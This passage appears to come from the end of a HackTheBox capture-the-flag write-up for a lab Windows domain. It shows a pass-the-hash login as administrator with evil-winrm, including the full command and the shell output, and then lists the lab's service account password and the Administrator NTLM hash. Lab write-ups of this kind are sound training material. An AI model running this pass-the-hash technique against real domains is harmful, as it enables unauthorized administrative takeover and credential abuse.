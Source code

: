 I got all the NTLM hashes of the users in this domain. I was looking for administrator, so I grabbed the whole thing, and picked up the last part of the series of numbers, since the sam dumps hashes in the domain\\uid: rid: LM : NT format.

I then proceeded to PassTheHash into the admin account with evil-winrm.

```bash
┌──(root㉿docker-desktop)-[/host_data/loot]
└─# evil-winrm -i 10.10.10.161 -u 'administrator' -H '32693b11e6aa90eb43d32c72a07ceea6'

Evil-WinRM shell v3.7

Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
htb\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

Root flag was on the desktop.

# Creds

**Basic Creds**
svc-alfresco : s3rvice

**Admin NTLM hash**
Administrator : aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6

# Proof

![](Assets/Pasted%20image%2020250722145626.png)
